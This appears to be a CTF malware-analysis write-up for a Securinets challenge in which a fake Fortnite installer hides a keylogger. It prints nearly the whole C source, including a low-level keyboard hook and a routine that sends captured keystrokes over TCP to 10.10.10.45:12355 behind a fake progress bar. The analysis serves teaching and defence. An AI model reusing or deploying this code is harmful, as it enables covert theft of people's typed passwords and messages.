

#  Fortnite 497 - Malware Analysis Writeup

## Challenge Descritption

God dammit. Someone told me this is fortnite premium with unlimited Vbucks. I reversed it and ITS NOT FORTNITE. Flag format: Securinets{Malware_commentedFlag_ServerIp_ServerPort_bufferSize}

---

## Provided Files

[fortnite_setup.exe](taskFiles/fortnite_setup.exe)

[This_Isnt_fortnite.c](taskFiles/This_Isnt_fortnite.c)

---

## TL;DR

**Malware Type:** Keylogger

This is a keylogger since it listens to low level keystrokes and sends them to a remote server for the attacker to access.
```c
void logk(int vkCode) {
    WCHAR keyName[2] = {0};
    BYTE keyboardState[256] = {0};
    GetKeyboardState(keyboardState);

    HKL layout = GetKeyboardLayout(0);
    int result = ToUnicode(vkCode, 0, keyboardState, keyName, 2, 0);

    if (result > 0) {
        buffer[count++] = keyName[0];
    } else {
        switch (vkCode) {
            case VK_SPACE: buffer[count++] = ' '; break;
            case VK_TAB: buffer[count++] = '\t'; break;
            case VK_RETURN: buffer[count++] = '\n'; break;
            case VK_BACK: buffer[count++] = '\b'; break;
            default: buffer[count++] = '?'; break;
        }
    }

    if (count == 25) {
        buffer[25] = '\0';
        sendlog();
        count = 0;
    }
}
```

**commentedFlag:** {battle_pass}
```c
// Here
// {battle_pass}
// You're welcome
```

**ServerIp:** 10.10.10.45
```c
server.sin_addr.s_addr = inet_addr("10.10.10.45");
```

**Port Number:** 12355
```c
server.sin_port = htons(12355);
```

**bufferSize:** 26
```c
char buffer[26];
```


**flag: Securinets{Keylogger_{battle_pass}_10.10.10.45_12355_26}**

---

## Initial Analysis

For this task, we're provided with the malware executable with its source code. Upon executing it, an installation window appears. It's obviously a cover for the malware's main process.




```c
#include <stdio.h>
#include <windows.h>
#include <winsock2.h>
#include <time.h>
```

Scanning the include lines for hints, one library stands out which is the **winsock2.h**. The main program is probably using it to create a socket for remote access for the attacker, possibly a **Remote Access Trojan** or a **Backdoor**...

```c
void logk(int vkCode) {
    WCHAR keyName[2] = {0};
    BYTE keyboardState[256] = {0};
    GetKeyboardState(keyboardState);

    HKL layout = GetKeyboardLayout(0);
    int result = ToUnicode(vkCode, 0, keyboardState, keyName, 2, 0);

    if (result > 0) {
        buffer[count++] = keyName[0];
    } else {
        switch (vkCode) {
            case VK_SPACE: buffer[count++] = ' '; break;
            case VK_TAB: buffer[count++] = '\t'; break;
            case VK_RETURN: buffer[count++] = '\n'; break;
            case VK_BACK: buffer[count++] = '\b'; break;
            default: buffer[count++] = '?'; break;
        }
    }

    if (count == 25) {
        buffer[25] = '\0';
        sendlog();
        count = 0;
    }
}
```

Moving on to the logk function. Its main purpose to summarize is listening to any key clicked, converting it to unicode, or its corresponding function key, then adding it to the buffer. Then, when it reaches 25 characters, it adds the null byte '\0' and calls `sendlog()` function. So, the buffer size is 26.

```c
void sendlog() {
    WSADATA wsaData;
    SOCKET sock;
    struct sockaddr_in server;

    if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0) {
        printf("WSAStartup failed: %d\n", WSAGetLastError());
        return;
    }

    sock = socket(AF_INET, SOCK_STREAM, 0);
    if (sock == INVALID_SOCKET) {
        printf("Could not create socket! Error: %d\n", WSAGetLastError());
        WSACleanup();
        return;
    }

    server.sin_addr.s_addr = inet_addr("10.10.10.45");
    server.sin_family = AF_INET;
    server.sin_port = htons(12355);

    if (connect(sock, (struct sockaddr *)&server, sizeof(server)) < 0) {
        closesocket(sock);
        WSACleanup();
        return;
    }

    send(sock, buffer, strlen(buffer), 0);

    closesocket(sock);
    WSACleanup();
}
```

The sendlog function is mainly for sending the buffer to the server for the attacker to access the key logs. It sets up a windows socket with server IP 10.10.10.45 and port number 12355 then gets the buffer variable and transfers it.

```c
LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
    if (nCode == HC_ACTION && wParam == WM_KEYDOWN) {
        KBDLLHOOKSTRUCT *kbd = (KBDLLHOOKSTRUCT *)lParam;
        logk(kbd->vkCode);
    }
    return CallNextHookEx(hHook, nCode, wParam, lParam);
}
```
To capture the keystrokes, the malware installs a low-level keyboard hook using the SetWindowsHookEx() function. The hook procedure is implemented in the KeyboardProc() function. When a key is pressed (WM_KEYDOWN), this function gets invoked and the key's virtual key code (vkCode) is passed to the logk() function for logging. HC_ACTION: The hook only processes the key events that require action, i.e., when a key is pressed down (WM_KEYDOWN).

```c
DWORD WINAPI fortnite(LPVOID lpParam) {
    printf("Fortnite setup:\n\n");
    int progress = 0;
    // Here
    // {battle_pass}
    // You're welcome
    while (progress <= 100) {
        printf("\r[%-50s] %d%%", "==================================================" + (50 - progress / 2), progress);
        fflush(stdout);
        Sleep(1000);
        progress++;
    }

    printf("\nInstallation Complete!\n");
    return 0;
}
```

The fortnite function will create the fortnite setup window. from ther we extract the commented flag {battle_pass}.

```c

int main() {
    HANDLE hThread = CreateThread(NULL, 0, fortnite, NULL, 0, NULL);
    if (hThread == NULL) {
        printf("Failed to create installation progress thread!\n");
        return 1;
    }

    hHook = SetWindowsHookEx(WH_KEYBOARD_LL, KeyboardProc, NULL, 0);
    if (!hHook) {
        printf("Failed to set hook!\n");
        return 1;
    }

    MSG msg;
    while (GetMessage(&msg, NULL, 0, 0)) {
        TranslateMessage(&msg);
        DispatchMessage(&msg);
    }

    UnhookWindowsHookEx(hHook);
    
    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);

    return 0;
}
```
Now to the main function.

**Fake Installation:** The fortnite() function is executed in a separate thread, which displays a fake installation progress bar to keep the user distracted.

**Keyboard Hook:** The SetWindowsHookEx() function installs the low-level keyboard hook (WH_KEYBOARD_LL) and starts listening for keystroke events.

**Message Loop:** A Windows message loop is used to process events like keyboard input, allowing the keylogger to run while the fake Fortnite installation continues in the foreground.

**Unhooking and Cleanup:** Once the message loop ends, the keylogger unhooks the keyboard using UnhookWindowsHookEx() and waits for the fake installation thread to finish (WaitForSingleObject()).

**Flag:** Securinets{Keylogger_battle_pass_10.10.10.45_12355_26}